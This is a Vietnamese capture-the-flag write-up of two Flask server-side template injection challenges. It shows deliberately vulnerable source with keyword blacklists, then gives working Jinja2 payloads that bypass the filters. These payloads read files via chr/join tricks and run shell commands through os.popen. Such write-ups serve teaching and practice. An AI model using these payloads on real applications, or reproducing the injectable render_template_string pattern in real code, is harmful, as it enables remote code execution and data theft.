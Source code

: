 # Web-vkl CTF
## vkl ssti1
### Dạng bài ssti1:
Source code:

```
from flask import Flask, render_template, render_template_string, request, abort
app = Flask(__name__)

@app.route("/")
def index():
    def filter(s):
        blacklist = ['class', 'attr', 'mro', 'base', 'request', 'session', 'add','+', 'config' , 'subclasses', 'cookies', 'headers','\'', '[', ']', '"', '{}']

        block = True
        for i in blacklist:
            if i in s.lower():
                block = False
                break
        return block
    if not request.args.get('name'):
        return open(__file__).read()
    elif filter(request.args.get('name')):
        name = request.args.get('name')
    else:
        name = 'cut dcmm'
    template = '''

    <div >
        <p>Hello, %s</p>
    </div>
    <!--flag in /flag.txt-->
''' % (name)
    return render_template_string(template)


if __name__ == "__main__":
    app.run(host='0.0.0.0', port=9999)
```
Nhìn vào source bài này thì mình thấy rất nhiều từ cần thiết đã bị filter, nên khả thi nhất lúc này là sử dụng:

```{{url_for.__globals__.__builtins__.open("filename").read()}}```

Nhưng ở đây có một vấn đề là ở đây cả `'` và `"` đều bị filter nên chúng ta không thể truyền được filename vào, mấu chốt của
của bài này là chúng ta phải giải quyết được chỗ này.

Trước tiên xác nhận xem flag có ở trong `/flag.txt` như tác giả nói hay không

```
{{url_for.__globals__.os.__dict__}}
```

![](img1.png)

Sử dụng `listdir()` để xem các file hiện tại:

```{{url_for.__globals__.os.__dict__.listdir()}}```

![](img2.png)

Vậy tác giả đã lừa chúng ta flag thực sự không nằm trong `/flag.txt` mà là `flag.txt`

Khi chúng ta truyền chuỗi vào thì `('a','b','c')|join` sẽ tương đương với `'abc'`

Nên tới đây mình sẽ sử dụng `chr` để chuyển về kí tự ascii sau đó dùng `join` để có được một chuỗi truyền vào.

Vậy chuỗi chúng ta truyền vào sẽ là: 

`(chr(102),chr(108),chr(97),chr(103),chr(46),chr(116),chr(120),chr(116))|join`

Nhưng ở đây có một lưu ý là để sử dụng `chr` thì chúng ta phải gọi được built-in function `chr` ra trước:

`{% set chr=url_for.__globals__.__builtins__.chr %}`

Final payload:

```{% set chr=url_for.__globals__.__builtins__.chr %}{{url_for.__globals__.__builtins__.open((chr(102),chr(108),chr(97),chr(103),chr(46),chr(116),chr(120),chr(116))|join).read()}}```

### Flag: web-vkl{filter_is_not_enough}

## vkl ssti2
### Dạng bài: ssti
Source code:
```

from flask import Flask, render_template, render_template_string, request, abort
app = Flask(__name__)

@app.route("/")
def index():
    def filter(s):
        blacklist = ['class', 'builtins','attr', 'mro', 'base', 'request', 'session', 'add','+', 'config' , 'subclasses', 'cookies', 'headers','\'', '[', ']', '"', '{}']

        block = True
        for i in blacklist:
            if i in s.lower():
                block = False
                break
        return block
    if not request.args.get('name'):
        return open(__file__).read()
    elif filter(request.args.get('name')):
        name = request.args.get('name')
    else:
        name = 'cut dcmm'
    template = '''

    <div >
        <p>Hello, %s</p>
    </div>
    <!-- -->
''' % (name)
    return render_template_string(template)


if __name__ == "__main__":
    app.run(host='0.0.0.0', port=9998)

```
Về cơ bản thì source code bài này giống với bài ssti 1 chỉ có một thay đổi là bị filter thêm chữ `builtins`.

Với bài này khi mình lên để viết writeup thì dường như server có vấn đề, mình không thể truyền param đi nên mình không ghi cụ thể chính xác được. 

Nhưng mình sẽ nói sơ về ý tưởng thực hiện:

Mình sử dụng payload để liệt kê ra tất cả các method và dễ dàng tìm chính xác vị trí của `request`
```
{% for i in url_for.__globals__ %}{{i}}{% endfor %}

```
Ví dụ vị trí của method là 7 thì mình sẽ sử dụng:

`{% set req=url_for.__globals__.pop((url_for.__globals__|list).__getitem__(7)) %}`

`getitem` được sử dụng cho list nên đó là lí do mình chuyển `url_for.__globals__` thành list.

Payload cuối cùng:

```
{%set req=url_for.__globals__.pop((url_for.__globals__|list).__getitem__(7)) %}{{url_for.__globals__.os.__dict__.popen(req.args.command).read()}}&command=cat /abc/flag.txt
```
Với bài này theo mình nhớ thì flag không nằm trong thư mục hiện tại, chuỗi mình truyền vào trong command chỉ là một ví dụ, các bạn có thể truyền v
các command thích hợp để tìm được vị trí của flag.


## End.
### Thank you for being here!
